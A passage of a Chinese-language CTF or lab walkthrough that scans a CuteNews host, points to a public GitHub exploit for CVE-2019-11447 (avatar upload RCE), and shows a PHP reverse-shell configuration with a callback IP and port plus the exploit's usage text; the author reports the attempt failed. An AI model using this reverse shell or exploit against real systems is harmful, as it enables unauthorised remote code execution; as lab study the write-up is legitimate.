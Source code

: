     /server-status        (Status: 403) [Size: 293]
    Progress: 218402 / 220561 (99.02%)
    ===============================================================
    2023/06/08 16:44:38 Finished
    ===============================================================
    ```

-   搜索github查找是否有对应的exp

-   找到对应的脚本下载文件获取反弹shell`https://github.com/ColdFusionX/CVE-2019-11447_CuteNews-AvatarUploadRCE`

-   修改rev.php中的回连地址以及端口号

-   ```shell
    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '192.168.2.128';  // CHANGE THIS
    $port = 8020;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;
    ```

-   根据帮助文件来进行设置所需信息

-   ```shell
    ❯ ./exploit.py -h                                                                                                                                                                     
    usage: exploit.py [-h] [-l URL] [-u USERNAME] [-p PASSWORD] [-e EMAIL]
    
    CuteNews 2.1.2 Avatar upload RCE (Authenticated) by ColdFusionX
    
    options:
      -h, --help            show this help message and exit
      -l URL, --url URL     CuteNews URL (Example: http://127.0.0.1)
      -u USERNAME, --username USERNAME
                            Username to Login/Register
      -p PASSWORD, --password PASSWORD
                            Password to Login/Register
      -e EMAIL, --email EMAIL
                            Email to Login/Register
    
    Exploit Usage : 
    ./exploit.py -l http://127.0.0.1 -u cold -p fusion -e cold@decepticon.net
    ./exploit.py -l http://127.0.0.1 -u optimus -p prime -e optimus@autobots.net
    [^] Select your PHP file -> rev.php
    OR
    [^] Select your PHP file -> ~/Downloads/rev.php
    [^] Press y/n to trigger reverse shell -> y
    
    ```

-   执行后发现并无法获得有效信息。并未获得反弹shell
